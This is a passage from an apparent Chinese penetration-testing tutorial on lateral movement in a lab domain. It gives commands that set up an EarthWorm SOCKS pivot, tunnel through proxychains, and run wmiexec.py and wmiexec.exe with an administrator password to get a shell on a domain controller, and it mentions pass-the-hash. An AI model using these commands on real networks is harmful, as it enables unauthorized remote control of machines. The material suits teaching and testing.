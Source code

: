![](https://i-blog.csdnimg.cn/blog_migrate/96977158e34c8d0ebebebd1d2a3723f1.jpeg)

如上图所示，成功获取到了目标系统DC(192.168.183.130)的Shell。如果对wmiexec.py指定-hashes选项的话，则可进行哈希传递。

该脚本十分强大，还可以让攻击机走socks代理直接进入内网，还是上面那个测试环境：

![](https://i-blog.csdnimg.cn/blog_migrate/8f399a3c4461a88458e9ad0c7ad1d282.jpeg)

由于攻击机无法直接访问内网的Windows server 2008，所以只能通过在Windows7上面架设一个socks代理服务器，通过这个socks代理进入内网，从而控制Windows server 2008。

先使用earthworm在Windows7上面架设一个socks代理服务器：

```cobol
`ew_for_Win.exe -s ssocksd -l 1080`



AI写代码
```

然后攻击机在本地配置好proxychains：

![](https://i-blog.csdnimg.cn/blog_migrate/465fa7052a0d24d544deadf87e5b4ac0.jpeg)

这样我们就可以通过proxychains来使用这个socks代理服务器（192.168.1.106）的代理了可。

接下来，我们只需在需要执行的命令前面加上proxychains4即可让命令走socks代理了，运行如下命令即可获取内网目标系统DC(192.168.183.130)的Shell：

```cobol
`proxychains4 python wmiexec.py administrator:Liu78963@192.168.183.130``// python wmiexec.py 用户名:密码@目标IP`



AI写代码
```

#### **EXE版本的**wmiexec

wmiexec.exe与wmiexec.py是一样的，主要用在Windows上，命令与wmiexec.py一模一样。在跳板机上上传wmiexec.exe并运行如下命令获取目标系统192.168.52.138的shell：

```cobol
`wmiexec.exe administrator:Liu78963@192.168.183.130`



AI写代码
```

除此之外，还可以利用PowerShell脚本来执行wmi命令，但这只适用于Windows Server 2008 和 Windows 7及以上默认内置powershell的版本。

此部分的更多详情请看我的文章：《内网横向移动：利用WMI来渗透》

### 利用DCOM在远程机器中执行命令
